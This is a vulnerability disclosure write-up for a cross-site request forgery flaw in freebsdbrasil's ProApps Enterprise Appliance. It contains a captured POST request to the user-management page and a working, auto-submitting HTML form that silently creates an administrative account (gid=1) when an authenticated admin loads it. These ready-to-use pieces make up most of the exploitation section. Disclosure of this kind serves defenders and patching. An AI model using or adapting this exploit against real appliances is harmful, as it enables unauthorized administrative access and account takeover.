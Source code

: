 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Cross-Site Request Forgery (CSRF)

## Description Vulnerability:
CSRF can cause lot of consequences, depending on how the CSRF request is crafted and the application's behavior. In this case, it is a CSRF vulnerability that allows the creation of an administrative account on the web application, resulting in unauthorized access. To exploit a CSRF, the victim needs to be authenticated and have the "Users" management permission set to "Modified" (True).

## Exploitation:
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

As mentioned before, when an authenticated user clicks on the link, the malicious code will send a request to create a new user by the user's web browser. The code below creates a new administrative account in the vulnerable web application with the username `CSRF_POC` and the password `yourpassword`.
The code sends a crafted POST request to the `ger_user page` page with the parameters `login`, `password`, `password2`, `nome`, `gid` and `email` fields. It is important to mention that this page is responsible for creating new users or changing their passwords. Filling the other parameters is optional; all the important ones are already completed and ready to use. Below is the `POST request` to create a new user on the web application:

```
POST /index.php?page=ger_user HTTP/1.1
Host: vulnerablewebsite
Content-Length: 402
Cache-Control: max-age=0
Authorization: XXXXXXXXXXXXXXXXXXXXXXXXXXXX
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://XXXXXXXX
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://vulnerablesite/index.php?page=ger_user
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

task=save&boxchecked=0&hidemainmenu=0&search=&dados%5Bid%5D=&dados%5Bnome%5D=Teste+Blaze&dados%5Blogin%5D=user_test&dados%5Bemail%5D=test%40hotmail.com&dados%5Bgid%5D=2&dados%5Bpassword%5D=test123456&dados%5Bpassword2%5D=test123456&dados%5Bblock%5D=0&dados%5Bblock2%5D=1&dados%5Btotp2fa%5D=0&dados%5Btotp2fa_test%5D=&dados%5Btotp2fa_key%5D=4b818698b94ffb5e92377024f060d531&id=&option=ger_user
```


The code below is the exploit responsable to create a new administrative account on the web application.

NOTE: Leave the `gid` parameter is set to 1 to ensure that the account will have administrative permissions, however, it can be changed depending on how the environment is configured.

```
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Send CSRF-POST Request</title>
</head>
<body>
    <form action="https://vulnerablesite.com/index.php?page=ger_user" method="POST">
        <!-- Campos do formulário -->
        <input type="hidden" name="task" value="save">
        <input type="hidden" name="boxchecked" value="0">
        <input type="hidden" name="hidemainmenu" value="0">
        <input type="hidden" name="search" value="">

        <input type="hidden" name="dados[id]" value="">
        <input type="hidden" name="dados[nome]" value="POC_CSRF">
        <input type="hidden" name="dados[login]" value="csrf_account">
        <input type="hidden" name="dados[email]" value="csfr@test.com">
        <input type="hidden" name="dados[gid]" value="1">
        <input type="hidden" name="dados[password]" value="yourpassword">
        <input type="hidden" name="dados[password2]" value="yourpassword">
        <input type="hidden" name="dados[block]" value="0">
        <input type="hidden" name="dados[block2]" value="0">
        <input type="hidden" name="dados[totp2fa]" value="0">
        <input type="hidden" name="dados[totp2fa_test]" value="">
        <input type="hidden" name="dados[totp2fa_key]" value="xxxxx">
        <input type="hidden" name="id" value="">
        <input type="hidden" name="option" value="ger_user">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```
Once exploited, it is now possible to log into the application and obtain unauthorized access.

## Impact Vulnerability:
CSRF Cross-Site Request Forgery allows creation of an administrative account or account hijacking.

### References:
- https://portswigger.net/web-security/csrf
- https://owasp.org/www-community/attacks/csrf
- https://www.linkedin.com/pulse/from-csrf-account-takeover-unmasking-danger-cross-site-request-lylbf/

